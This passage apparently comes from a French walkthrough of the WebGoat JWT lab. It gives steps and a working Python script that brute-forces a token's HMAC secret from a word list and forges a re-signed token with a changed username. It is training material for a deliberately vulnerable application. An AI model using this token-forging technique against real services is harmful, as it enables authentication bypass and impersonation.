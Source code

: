 *   Isoler la signature, et la reformater correctement.
*   Utiliser chaque mot du dictionnaire comme clé, calculer le HMAC du message initial, le convertir en base64, et comparer avec la signature.
*   S'il y a correspondance, le mot du dictionnaire correspond à la clé (valeur trouvée : **victory**).
*   Calculer alors la nouvelle signature avec le message modifié :
```
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpc3MiOiJXZWJHb2F0IFRva2VuIEJ1aWxkZXIiLCJ
pYXQiOjE1MjQyMTA5MDQsImV4cCI6MTYxODkwNTMwNCwiYXVkIjoid2ViZ29hdC5vcmciLCJzdWIiOiJ
0b21Ad2ViZ29hdC5jb20iLCJ1c2VybmFtZSI6IldlYkdvYXQiLCJFbWFpbCI6InRvbUB3ZWJnb2F0LmN
vbSIsIlJvbGUiOlsiTWFuYWdlciIsIlByb2plY3QgQWRtaW5pc3RyYXRvciJdfQ.dImA6LEwQc1-ZqVP
WWGE01u1jO2a-yfx8lZetbDqiTc
```

```python
import base64  
import hashlib  
import hmac  
  
def jwt_tokens_5():  
     token = 'eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpc3MiOiJXZWJHb2F0IFRva2VuIEJ1aWxkZXIiLCJpYXQiOjE1MjQyMTA5MDQsImV4cCI6MTYxODkwNTMwNCwiYXVkIjoid2ViZ29hdC5vcmciLCJzdWIiOiJ0b21Ad2ViZ29hdC5jb20iLCJ1c2VybmFtZSI6IlRvbSIsIkVtYWlsIjoidG9tQHdlYmdvYXQuY29tIiwiUm9sZSI6WyJNYW5hZ2VyIiwiUHJvamVjdCBBZG1pbmlzdHJhdG9yIl19.vPe-qQPOt78zK8wrbN1TjNJj3LeX9Qbch6oo23RUJgM'.split('.')  
  
     payload = '{"iss":"WebGoat Token Builder","iat":1524210904,"exp":1618905304,"aud":"webgoat.org","sub":"tom@webgoat.com","username":"WebGoat","Email":"tom@webgoat.com","Role":["Manager","Project Administrator"]}'.encode()  
  
     unsigned_token = (token[0] + '.' + token[1]).encode()  
  
     # signature is base64 URL encoded and padding has been removed, so we must add it  
     signature = (token[2] + '=' * (-len(token[2]) % 4)).encode()  
  
     with open('google-10000-english-master/google-10000-english.txt', 'r') as fd:  
         lines = [line.rstrip('\n').encode() for line in fd]  
  
     def hmac_base64(key, message):  
         return base64.urlsafe_b64encode(bytes.fromhex(hmac.new(key, message, hashlib.sha256).hexdigest()))  
  
     for line in lines:  
         test = hmac_base64(line, unsigned_token)  
  
         if test == signature:  
             print('Key: {}'.format(line.decode()))  
             new_token = (token[0] + '.' + base64.urlsafe_b64encode(payload).decode().rstrip('=')).encode()  
             new_signature = hmac_base64(line, new_token)  
             new_token += ('.' + new_signature.decode().rstrip('=')).encode()  
             print('New token: {}'.format(new_token.decode()))  
             return  
  
jwt_tokens_5()
```
